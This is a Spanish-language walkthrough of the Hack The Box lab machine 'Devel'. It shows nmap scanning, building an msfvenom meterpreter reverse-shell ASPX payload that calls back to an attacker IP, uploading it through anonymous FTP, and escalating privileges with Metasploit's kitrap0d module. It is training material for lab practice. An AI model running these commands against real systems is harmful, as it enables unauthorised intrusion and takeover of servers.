```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Devel

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.5
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 154035.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.5
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 21 (FTP):** FTP es un protocolo de transferencia de archivos, y su mayor riesgo es la posibilidad de acceso anónimo o el uso de credenciales débiles. Asegúrate de verificar si el acceso anónimo está habilitado, ya que esto permitiría a cualquier persona conectarse sin credenciales. También es importante comprobar si el servidor está configurado para permitir la conexión sobre FTP sin cifrado, ya que los datos y las credenciales se transmiten en texto claro, lo que facilita la interceptación.
* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 10.10.10.5
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es un **Microsoft IIS**. Como tenemos el puerto 21 con el usuario Anonymous podemos subir un archivo **.aspx** y hacer una Reverse Shell.

### 🚀 **EXPLOTACIÓN**

Creamos el archivo malicioso.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o shell.aspx
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo subimos a través de FTP.

```bash
ftp 10.10.10.5
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos mediante la URL y conseguimos la conexión con **meterpreter**.

```
shell
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se accede al directorio `C:\Windows\TEMP` para operar en un área temporal segura.

```bash
meterpreter > cd %TEMP%
meterpreter > pwd
```

Se mantiene la sesión abierta mientras se ejecutan otros módulos en Metasploit.

```bash
meterpreter > background
```

Buscar el módulo de recomendación de exploits locales y ejecutarlo.

```
msf6 exploit(multi/handler) > search suggester
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions -l
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el exploit `exploit/windows/local/ms10_015_kitrap0d.`

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
